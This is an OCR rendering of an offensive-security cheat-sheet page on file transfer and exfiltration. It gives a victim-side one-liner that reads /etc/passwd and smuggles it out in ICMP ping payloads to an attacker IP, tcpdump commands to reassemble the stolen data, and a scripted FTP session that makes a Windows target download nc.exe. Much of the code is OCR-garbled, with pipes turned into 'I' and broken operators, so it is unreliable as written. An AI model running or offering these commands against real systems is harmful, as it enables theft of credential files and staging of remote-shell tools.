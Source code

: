 # File Transfers | Exfiltration

## Transfer via ICMP

**On victim (never ending one liner) :**

```
stringz-·cat /etc/passwd I od -tx1 I cut -c8- I tr -d " " I tr -d "\"'
counter-0; while (($counter - ${#stringZ})} ;do ping -s 16 -c l -p {stringZ:counter:16} 192.168.10.10 && counter=$( (counter+~6)) ;done
```

**On the attacker host (capture packets to data.dmp and parse}:**

```
tcpdump -ntvvSxs 0 'icmp\[C:-a• data.dmp

grep Ox0020 data.dmp I cut -c21- I tr -d " " I tr -d "\
" I xxd -r -p
```

Alternatively, use this tool:

{% embed url="https://github.com/Vidimensional/Icmp-File-Transfer" %}

Another alternative method can be found here:

{% embed url="https://0xffsec.com/handbook/exfiltration/#icmp" %}

## Transfer via FTP

The below method can be used to transfer files from Linux to Windows. A similar technique can also be used to transfer files from Windows to Linux but with a little trick.

Place your file (nc.exe in this case) FTP home directory on target Linux.\
Replace the username/password below with your FTP username/password.

**Linux System(Attacking machine)**

```
echo open 192.168.1.2 21> file.txt  
echo USER username>> file.txt  
echo password>> file.txt  
echo bin >> file.txt  
echo GET nc.exe >> file.txt  
echo bye >> file.txt`
```

**Windows (Target machine)**

```
ftp -v -n -s:file.txt
```

Alternatively, we can use Pure-FTP but first, we must install it:

```
sudo apt update && sudo apt install pure-ftpd
```
